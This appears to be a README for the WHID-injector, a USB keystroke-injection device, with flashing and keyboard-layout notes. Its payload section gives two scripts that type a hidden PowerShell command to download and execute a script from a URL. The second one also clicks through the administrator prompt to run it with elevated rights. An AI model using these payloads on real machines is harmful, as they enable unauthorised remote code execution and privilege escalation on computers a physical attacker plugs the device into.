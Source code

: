 ## Build instructions
> **Notes:**
> - This has only been tested with the Arduino IDE 2.3.2
> - Only flashing the file at [ESPloitV2_whid/source/Arduino_32u4_Code/Arduino_32u4_Code.ino](https://github.com/whid-injector/WHID/blob/master/ESPloitV2_whid/source/Arduino_32u4_Code/Arduino_32u4_Code.ino) is relevant for the keyboard layout.
> - For flashing [ESPloitV2_whid/source/ESP_Code](https://github.com/whid-injector/WHID/tree/master/ESPloitV2_whid/source/ESP_Code),
> [ESPloitV2_whid/flashing/esp8266Programmer/esp8266Programmer.ino](https://github.com/whid-injector/WHID/blob/master/ESPloitV2_whid/flashing/esp8266Programmer/esp8266Programmer.ino) has
> to be flashed first, and after that `Arduino_32u4_Code.ino` again [docs](https://github.com/whid-injector/WHID/blob/master/ESPloitV2_whid/flashing/README.md).
> On an already pref-flashed device, this is **not recommended** and a complex process,
> which can lead to potentially soft-bricking the device.

See installation, build and usage instructions at [github.com/whid-injector/WHID/wiki#main-requirements](https://github.com/whid-injector/WHID/wiki#main-requirements)




## Change Keyboard layout

If the keyboard is available at [github.com/whid-injector/WHID/wiki/Keyboards-Layout](https://github.com/whid-injector/WHID/wiki/Keyboards-Layout), use those instructions.

If not available, you can modify the file `Keyboard/src/KeyboardLayout_en_US.cpp` ([`Keyboard` library](https://github.com/arduino-libraries/Keyboard), usually found somewhere at around `%localAppData%/Arduino15/libraries/Keyboard` on Windows) based on your needs. \
An example for that is the file [KeyboardLayout_en_US.cpp](/files/KeyboardLayout_en_US.cpp) for the Swiss-German keyboard layout



## Payloads

Use something like the following to execute a powershell script from an url (replace `URL` accordingly)
```shell
Press:131+114 
Print:powershell -w h "IEX(iwr('URL'))"
Press:176
Press:176
Press:176
Press:176
Press:176
```

> **Note**
> `131+114` here stands for the `WIN`+`r` key combo, and `176` for  `ENTER` ([syntax](https://github.com/whid-injector/WHID/wiki/WHID-Software-SCRIPTING-SYNTAX)) \
> See [github.com/whid-injector/WHID#how-to-start-newbies-edition](https://github.com/whid-injector/WHID?tab=readme-ov-file#how-to-start-newbies-edition) for general usage of the WHID-injector

Execution with Administrator privileges
```shell
Press:131+114
Print:powershell -w h "IEX(iwr('url'))"
Press:128+129+176
Press:216
Press:176
Press:216
Press:176
Press:216
Press:176
Press:216
Press:176
Press:216
Press:176
```
(`128+129+176` stands for `CTRL`+`SHIFT`+`ENTER` and `216` for `ArrowLeft`)